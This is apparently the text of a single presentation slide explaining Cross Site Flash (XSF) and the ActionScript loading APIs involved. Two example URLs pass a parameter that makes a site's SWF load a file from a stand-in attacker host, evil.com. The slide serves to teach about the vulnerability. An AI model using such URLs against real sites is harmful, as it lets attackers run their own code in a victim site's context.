

XSF
XSF(Cross Site Flash) essence:
SWF file as input
http://foo.com/f.swf?swf=//evil.com/e.swf
http://evil.com/e.swf?swf=//foo.com/f.swf
AS2
loadMovie()
AS3
new Loader() + URLRequest(URLLoader)
Authority model